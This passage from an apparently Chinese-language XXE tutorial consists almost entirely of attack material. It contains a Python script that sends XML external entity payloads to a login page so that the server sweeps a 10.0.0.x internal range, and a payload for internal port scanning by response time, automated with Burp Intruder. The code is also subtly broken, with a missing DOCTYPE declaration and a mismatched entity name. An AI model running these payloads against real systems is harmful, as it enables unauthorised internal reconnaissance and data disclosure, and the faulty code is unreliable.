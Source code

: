 ```php
import requests
import base64

#Origtional XML that the server accepts
#<xml>
#    <stuff>user</stuff>
#</xml>

def build_xml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<user>"""
    xml = xml + "\r\n" + """ <username>&test;</username>"""
    xml = xml + "\r\n" + """</user>"""
    send_xml(xml)

def send_xml(xml):
    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://192.168.11.59/doLogin.php', data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2] # a little split to get only the base64 encoded value
    print coded_string
#   print base64.b64decode(coded_string)
for i in range(1, 255):
    try:
        i = str(i)
        ip = '10.0.0.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
        continue
```

1.6、内网端口扫描
----------

使用以下payload进行端口扫描，通过响应时间来判断端口是否开放，利用Burp Suite等工具设置循环遍历端口，自动化进行端口探测，将扫描出来的资产进行相应端口的漏洞利用。

```php
<?xml version="1.0" encoding="utf-8"?> 

<!ENTITY xxe SYSTEM "http://127.0.0.1:80" >]>
<user>
<username>&xxe;</username>
<password>1</password>
</user>

可使用burpsuite的intruder模块进行遍历
```
